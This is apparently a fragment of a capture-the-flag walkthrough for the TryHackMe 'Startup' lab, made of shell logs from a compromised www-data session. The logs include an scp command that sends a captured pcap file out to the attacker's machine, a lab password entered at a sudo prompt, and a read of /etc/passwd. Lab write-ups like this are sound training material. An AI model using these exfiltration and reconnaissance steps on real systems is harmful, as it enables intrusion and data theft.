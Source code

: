 ```
```

```
www-data@startup:/$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

```
$ scp suspicious.pcapng kali@10.8.106.222:/home/kali/CTFs/tryhackme/Startup
Could not create directory '/var/www/.ssh'.
The authenticity of host '10.8.106.222 (10.8.106.222)' can't be established.
ECDSA key fingerprint is SHA256:xCE0Cpa4vJaXG1mwn7ciMO55E0R11HvAmXVl2ymdG+Y.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
kali@10.8.106.222's password:
suspicious.pcapng                             100%   30KB  30.5KB/s   00:00
www-data@startup:/incidents$
```

```
www-data@startup:/$ cd
cd
bash: cd: HOME not set
www-data@startup:/$ ls
ls
bin   etc	  initrd.img.old  media  recipe.txt  snap  usr	    vmlinuz.old
boot  home	  lib		  mnt	 root	     srv   vagrant
data  incidents   lib64		  opt	 run	     sys   var
dev   initrd.img  lost+found	  proc	 sbin	     tmp   vmlinuz
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data:

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
www-data@startup:/home$ cat /etc/passwd
```
